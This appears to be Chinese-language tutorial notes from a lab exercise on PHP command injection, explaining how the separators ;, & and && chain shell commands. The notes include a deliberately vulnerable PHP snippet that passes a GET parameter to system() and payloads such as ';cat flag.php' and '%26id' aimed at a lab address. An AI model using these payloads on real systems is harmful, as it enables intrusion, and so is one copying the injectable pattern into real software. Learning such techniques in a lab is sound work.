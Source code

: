 **拼接命令**

* ;
  使多个命令按顺序执行
  前面的命令和后面的命令都会执行
  即使前面的命令出错,后面的命令依旧能执行

  ```php
  id;ls;pwd
  
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  $cmd=$_GET["cmd"];
  if(isset($cmd)){
      system("ls".$cmd)
  }
  
  http://192.168.88.141:18080/class03/1.php?cmd=;cat flag.php
  ```

  ![image-20240315141450413](PHP命令执行.assets/image-20240315141450413.png)

* &
  使命令在后台运行
  这样就可以同时执行多条命令
  前面的命令即使错误,后面的命令也能正常执行

  ```php
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  $cmd=$_GET["cmd"];
  if(isset($cmd)){
      system("ls".$cmd)
  }
  
  ?cmd=&id不正确,而要使用url编码,即
  ?cmd=%26id
  ```

* &&
  如果前面的命令执行成功
  则执行后面的命令

  ```php
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  $cmd=$_GET["cmd"];
  if(isset($cmd)){
      system("ls".$cmd)
  }
  
  ?cmd=1%26%26idid 第一条命令无法执行,则后面的命令也无法执行
  ```
